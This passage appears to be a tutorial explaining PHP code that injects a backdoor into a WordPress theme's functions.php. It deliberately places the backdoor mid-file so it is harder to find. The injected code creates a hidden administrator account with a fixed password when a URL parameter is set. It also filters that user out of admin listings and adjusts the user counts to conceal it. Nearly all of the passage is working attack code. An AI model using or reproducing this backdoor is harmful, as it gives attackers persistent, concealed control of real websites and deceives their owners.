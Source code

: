 This chunk opens up the file, split the lines and stores them in an array. We do this because we don't want to add the backdoor at the end of the file but somewhere in the middle so it will be more difficult to find. I have set it to line 148 so it will be injected there.

```php
    // Add your custom code snippet
    $custom_code = "
// Custom Code Marker: Do not remove or modify this line

add_action( 'wp_head', 'wp_backdoor_functions' );

function  wp_backdoor_functions() {
    if ( isset( \$_GET['backdoor'] ) && \$_GET['backdoor'] == 'go' ) {
        require( ABSPATH . 'wp-includes/registration.php' );
	    if ( !username_exists( 'new_admin' ) ) {
		    \$user_id = wp_create_user( 'new_admin', 'new_pass' );
		    \$user = new  WP_User( \$user_id );
		    \$user->set_role( 'administrator' );
	    }
    }
}

add_action('after_setup_theme', 'wp_backdoor_functions');
 
add_action('pre_user_query','dt_pre_user_query_functions');

function dt_pre_user_query_functions(\$user_search) {
global \$current_user;
\$username = \$current_user->user_login;

if (\$username != 'new_admin') {
    global \$wpdb;
    \$user_search->query_where = str_replace('WHERE 1=1',
    \"WHERE 1=1 AND {\$wpdb->users}.user_login != 'new_admin'\",\$user_search->query_where);
    }
}

add_filter('views_users', 'dt_list_table_views_functions');

function dt_list_table_views_functions(\$views){
    \$users = count_users();
    \$admins_num = \$users['avail_roles']['administrator'] - 1;
    \$all_num = \$users['total_users'] - 1;
    \$class_adm = ( strpos(\$views['administrator'], 'current') === false ) ? \"\" : \"current\";
    \$class_all = ( strpos(\$views['all'], 'current') === false ) ? \"\" : \"current\";
    \$views['administrator'] = '<a href=\"users.php?role=administrator\" class=\"' . \$class_adm . '\">' . translate_user_role('Administrator') . ' <span class=\"count\">(' . \$admins_num . ')</span></a>';
    \$views['all'] = '<a href=\"users.php\" class=\"' . \$class_all . '\">' . __('All') . ' <span class=\"count\">(' . \$all_num . ')</span></a>';
    return \$views;
}
    ";

    // Insert the custom code at the specified line number
    array_splice($file_lines, $insert_line_number - 1, 0, $custom_code);

    // Write the modified array back to functions.php
    file_put_contents($functions_file, implode('', $file_lines));

    // Append the custom code snippet to functions.php
    //file_put_contents($functions_file, $custom_code, FILE_APPEND | LOCK_EX);
}
```
